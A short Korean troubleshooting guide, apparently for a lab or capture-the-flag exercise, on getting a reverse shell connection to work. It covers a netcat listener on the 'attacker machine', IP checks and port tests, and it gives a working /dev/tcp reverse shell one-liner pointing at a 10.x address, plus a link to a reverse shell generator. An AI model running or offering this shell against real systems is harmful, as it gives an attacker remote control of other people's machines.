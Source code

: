 ```bash
python --version
python2 --version
python3 --version

sudo apt update
sudo apt install python2 python3
```

**핵심**: 반드시 공격자 머신에서 `nc -lvnp 1234`를 먼저 실행한 후, 타겟에서 연결을 시도해야 합니다.

**Connection refused (Errno 111)** 오류는 다음 중 하나입니다:

- 공격자 머신에서 리스너가 실행되지 않음
- IP 주소 또는 포트 번호 오류
- 네트워크 연결 문제 (방화벽/라우팅)

---

## 1️⃣ 공격자 머신에서 리스너 설정

```bash
# 공격자 머신에서 먼저 실행
nc -lvnp 1234

# 옵션 설명:
# -l : listen 모드 (대기)
# -v : verbose (상세 출력)
# -n : DNS 해석 생략 (속도 향상)
# -p : 포트 지정
```

### IP 주소 확인

```bash
# 공격자 머신의 IP 확인
ip a | grep inet
# 또는
ifconfig | grep inet
# VPN 사용시 tun0 인터페이스 확인
ip a show tun0
```

# 포트 연결 테스트

nc -zv 10.10.234.59 1234
-z : Zero-I/O 모드 - 연결만 테스트하고 데이터 전송하지 않음 (포트 스캔용)
-v : Verbose 모드 - 상세한 출력 표시
sh -i >& /dev/tcp/10.8.136.212/1234 0>&1

---

# 리버스쉘 파일 생성 사이트 -> https://www.revshells.com/
